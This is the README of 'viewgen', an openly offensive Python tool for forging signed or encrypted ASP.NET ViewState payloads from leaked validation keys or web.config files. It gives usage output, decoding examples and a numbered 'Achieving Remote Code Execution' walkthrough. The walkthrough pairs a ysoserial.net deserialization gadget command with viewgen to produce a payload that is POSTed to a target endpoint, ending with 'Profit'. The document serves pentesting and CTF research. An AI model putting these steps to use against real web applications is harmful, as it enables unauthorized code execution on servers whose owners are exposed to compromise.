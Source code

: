 # viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

**Requirements**: Python 3

### Installation

`pip3 install --upgrade -r requirements.txt` or `./install.sh`


---------------

### Usage
```bash
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER] [-c COMMAND]
               [--decode] [--guess] [--check] [--vkey VKEY] [--valg VALG]
               [--dkey DKEY] [--dalg DALG] [-e]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

optional arguments:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  -c COMMAND, --command COMMAND
                        Command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -e, --encrypted       ViewState is encrypted
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a POST request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints
